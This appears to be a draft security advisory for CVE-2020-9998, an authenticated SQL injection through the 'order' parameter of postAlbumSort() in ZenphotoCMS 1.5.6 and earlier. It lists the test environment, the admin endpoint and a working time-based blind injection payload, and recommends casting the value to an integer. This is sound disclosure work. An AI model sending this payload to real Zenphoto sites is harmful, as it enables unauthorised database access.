 ```yaml
---
cve: "CVE-2020-9998"
title: "Authenticated SQL injection in ZenphotoCMS v1.5.6 and prior"
date: 2020-02-12
draft: yes
tags:
- sql injection
---
```

Zenphoto v1.5.6 and prior is prone to SQL Injection. The parameter `order` in the function `postAlbumSort()` is not correctly sanitized.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9998

<hr />

**Description:**  
The function `postAlbumSort()` triggers a SQL query using the POST parameter `order`, unfortunately his value is not sanitized when building the query.

**Environment:**  
Version: 1.5.6  
OS: Ubuntu 16.10  
Web server: Apache 2.4.18  
PHP: 7.4.2  
Database: MySQL 5.7.28  
URL: `/zp-core/admin-edit.php?page=edit&action=savealbumorder`  

**Payload:**  
```XSRFToken=bfc6ec5b3fdffce396ca60b824b68e3eb18a5d4c&checkallaction=noaction&newtag_mass_tags_=&massownerselect=admin&order=id%5B2 and (select sleep(5))%23%5D%3Dnull%26id%5B1%5D%3Dnull&update=Save+Order```

**Recommendation:**  
Cast the value to integer.

**PoC:**  
![cve-2020-2998](/images/cve-2020-2998.png)
